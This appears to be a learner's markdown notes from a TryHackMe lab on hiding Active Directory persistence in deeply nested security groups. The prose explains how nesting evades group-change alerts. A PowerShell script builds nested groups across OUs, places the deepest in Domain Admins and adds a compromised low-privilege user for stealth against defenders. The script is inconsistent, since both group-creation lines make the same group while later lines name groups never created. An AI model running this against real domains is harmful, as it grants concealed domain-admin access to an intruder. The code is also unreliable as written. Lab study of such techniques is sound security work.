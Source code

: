 
The simple addition of accounts to AD groups see: [[Active-Directory-Default-Security-Groups-Table]]. For secure, long term stability in persistence privilege groups are monitored more closely and receive additional security scrutiny. To persist through group membership:
-  IT Support group can be used to gain privileges such as force changing user passwords of non privileged users
	- Allows for compromisation creep spread through the userbase
- Groups that provide local administrator rights are often not monitored as closely as protected groups.
	- Used to return to compromise the domain again
- Groups with indirect privilege
	- Ownership over Group Policy Objects (GPOs)

## Nesting Persistence in Nested Grouped

In most organisations, there are a significant amount of recursive groups(a group that is member of another group), which provide more organised structure. Although this came come with itself own complexity creep and it does reduces the visibility of effective access. If Group X is a member of Y and Z, where X-A, X-B and X-C are a sub group of X, but the terminal or GUI output does not show the recursive group nesting of Y. We would have know or enumerate as either attacker or defender or system administrator that the group relationships and membership existed. Making alerts that set off that member was added to group X will not alert unless that alert also includes the **X and its subgroups**. Attackers can leverage this reduced visibility to perform persistence, focusing on subgrouping to access the environment.

This can be done repeatly create more nesting. Consider the contextual need or how it interelate to the structuing of the organisation for most stealth.

```powershell
# Create a new base group that will hde the People->IT OU
New-ADGroup -Path "OU=IT,OU=People,DC=$workgroup,DC=$domain,DC=$local" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
# Create a second group in People->Sale OU 
New-ADGroup -Path "OU=SALES,OU=People,DC=$workgroup,DC=$domain,DC=$local" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
# Add the first group to the second group
Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
# Repeat till nesting is atleast as deep enough that the Blue Team thinks that they have digging in the mines of Moria
# Add the most hidden in the nesting of groups to the Domain Admins group
Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
# Add compromised low privileged user
Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```


## References

[THM AD Persistence Room](https://tryhackme.com/room/persistingad)